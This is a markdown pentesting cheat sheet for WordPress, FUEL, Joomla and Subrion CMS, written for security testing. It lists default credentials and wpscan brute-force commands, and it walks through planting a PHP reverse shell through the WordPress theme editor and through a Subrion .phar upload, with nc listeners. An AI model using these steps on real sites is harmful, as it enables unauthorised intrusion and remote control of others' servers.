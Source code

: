 ```yaml
---
title: CMS Pentesting
desc: Pentesting for the CMS used in the Web Applications. WordPress.
tags: [CMS, Cmseek, FUEL, Subrion, Web, WordPress]
alts: []
render_with_liquid: false
---
```


## CMS Detection

You need to detect which CMS is used in the web page.

1. **Using Detection Tools**

    - **[Cmseek](https://github.com/Tuhinshubhra/CMSeeK){:target="_blank"}**

        ```sh
        cmseek -u vulnerable.com
        ```

<br />

## WordPress Pentesting

1. **Manual Pentesting**

    - **Find Common Directories**

        ```sh
        /author/admin/
        /index.php/author/admin/
        /license.txt
        /readme.html
        /wp-admin/
        /wp-admin/upload.php

        # Private/Draft Posts (WordPress <= 5.2.3) 
        /?static=1
        ```

    - **Try to Login with Default Credential**

        Access to **/wp-login.php** and use the default credential in the login form.

        ```
        admin:password
        ```

    - **PHP Reverse Shell Injection**

        It's required the **"admin" credentials.**

        ```
        1. Access to dashboard (/wp-admin/).
        2. Move to "Appearance" and select theme named "Twenty Seventeen".
        3. Click "Theme Editor" or "Editor" in the "Appearance" section.
        4. In the theme editor, click "404 Template (404.php)" on the right.
        5. Copy and paste the code for Reverse Shell (https://github.com/pentestmonkey/php-reverse-shell).
        6. Edit "IP" and "Port" in the code.
        7. In your terminal, run 'nc -lvnp <IP>'.
        8. Browse https://vulnerable.com/wp-content/themes/twentyseventeen/404.php
        ```

    - **XML-RPC (xmlrpc.php)**

        - **Get All Methods**

            ```xml
            POST /xmlrpc.php HTTP/1.1
            Host: vulnerable.com
            ...

            <?xml version="1.0" encoding="utf-8"?> 
            <methodCall> 
            <methodName>system.listMethods</methodName> 
            <params></params> 
            </methodCall>
            ```

        - **Ping Back**

            Use **[PostBin](https://www.toptal.com/developers/postbin/){:target="_blank"}** to confirm the results.

            ```xml
            POST /xmlrpc.php HTTP/1.1
            Host: vulnerable.com
            ...

            <?xml version="1.0" encoding="utf-8"?>
            <methodCall>
            <methodName>pingback.ping</methodName>
            <params>
            <param><value><string>https://www.toptal.com/developers/postbin/xxxxxxxxxxxxx-xxxxxxxxxxxxx</string></value></param>
            <param><value><string>http://vulnerable.com</string></value></param>
            </params>
            </methodCall>
            ```

2. **Use Automation Tools**

    - **[Wpscan](https://github.com/wpscanteam/wpscan){:target="_blank"}**

        WordPress security scanner.  
        It can brute force credentials.

        ```sh
        # --rua: random user agent
        # --http-auth username:password
        # -e: enumerate
        #  ap: All plugins
        #  at: All themes
        #  tt: Timthumbs
        #  cb: Config backups
        #  dbe: Db exports
        #  u: User IDs range
        #  m: Media IDs range
        wpscan --rua -e ap,at,tt,cb,dbe,u,m --url https://vulnerable.com -P /usr/share/wordlists/rockyou.txt

        # Specifify username (-U)
        wpscan --rua -e ap,at,tt,cb,dbe,u,m --url https://vulnerable.com -U username -P /usr/share/wordlists/rockyou.txt
        ```

<br />

## FUEL CMS Pentesting

1. **Login using Default Credential**

    ```
    admin:admin
    ```

<br />

## Joomla Pentesting

1. **Default Credentials**

    The default username is **"admin"** and no password.

2. **Interesting Files**

    ```
    /administrator/manifests/files/joomla.xml
    /language/en-GB/en-GB.xml
    ```

<br />

## Subrion CMS Pentesting

1. **File Upload to Reverse Shell**

    It is login required.

    1. **Download Reverse Shell Payload**

        Get the PHP payload from [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell){:target="_blank"}.  
        And change the file extension to **'.phar'**.  
        Then open listener.

        ```sh
        nc -lvnp 4444
        ```

    2. **Upload the Payload in Subrion Panel**

        1. **Login**

        2. **Move to Content -> Uploads in Panel**

        3. **Upload reverse-shell.phar**

        4. **Access to /subrion/upload/reverse-shell.phar**

        Now you get a shell.